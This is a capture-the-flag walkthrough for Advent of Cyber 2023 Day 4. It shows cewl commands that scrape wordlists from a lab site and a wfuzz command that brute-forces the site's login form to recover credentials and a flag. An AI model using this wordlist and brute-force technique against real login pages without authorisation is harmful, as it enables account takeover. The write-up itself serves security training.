




<h1>🎅🏻Ho! 🎅🏻Ho! 🎅🏻Ho! 
Welcome to Advent of Cyber 2023</h1>

<h2>[Day 4] Brute-forcing Baby, it's CeWLd outside</h2>

As you can imagine the questions are pretty simple to find if you follow the instructions. With this in mind let us solve the 1st question.

## Question 1: What is the correct username and password combination? Format username:password

Just use the command from the example to create the passwords list:

`cewl -d 2 -m 5 -w ~/Desktop/passwords.txt http://10.10.172.128 --with-numbers`

There are some interesting passwords...

Now for the usernames:

`cewl -d 0 -m 5 -w ~/Desktop/usernames.txt http://10.10.172.128/team.php --lowercase`

Hmm... the password list and username list is looking the same...

So now let us use the wfuzz:

First go into the Desktop directory:

`cd Desktop`

Then type in the command :

`wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.172.128/login.php -d "username=FUZZ&password=FUZ2Z"`

Wait couple of seconds and you will get the credentials :)

## Question 2: What is the flag?

Now you need to log in to the website using `http://10.10.172.128/login.php`

for username, and password use the answers of the previous question.

The flag is inside the *Confidential Message*.

# Until the next time! 🎅🏿🎅🏿🎅🏿